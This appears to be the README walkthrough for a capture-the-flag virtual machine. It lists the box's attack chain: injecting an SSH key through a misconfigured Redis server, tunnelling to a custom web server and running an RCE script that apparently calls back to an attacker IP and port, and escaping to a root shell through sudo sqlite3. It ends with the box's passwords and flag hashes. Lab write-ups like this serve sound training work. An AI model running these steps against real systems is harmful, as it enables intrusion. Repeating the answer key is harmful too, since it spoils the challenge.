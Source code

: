# WARNING THIS IS A CTF BOX, GO TO [RELEASES](https://github.com/SOROM2/poly-ctf-box/releases/latest) FOR THE OVF
Then come back here if you get stuck or complete the box.


## User



### Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

### Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Tunnel the port from the shell you got from redis by typing:

    ~C
    -L 8080:127.0.0.1:8080

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://127.0.0.1:8080/ 10.10.69.42 3000

## Root

### Sudo sqlite3

As `michiko-arasaka` you can list your sudo permissions with `sudo -l`

You can execute sqlite3 as root on this box, so you can run

    sudo /usr/bin/sqlite3
    .shell /bin/bash

Rooted!

## Creds
root:UnguessableP@ssw0rd

/root/root.txt : 4e067a8231035d94ca54f1e41c12df6e
 

michiko-arasaka:4d4m5M@SH3R

/home/michiko-arasaka/user.txt : 169ab538813557728c78b637db91d1b0

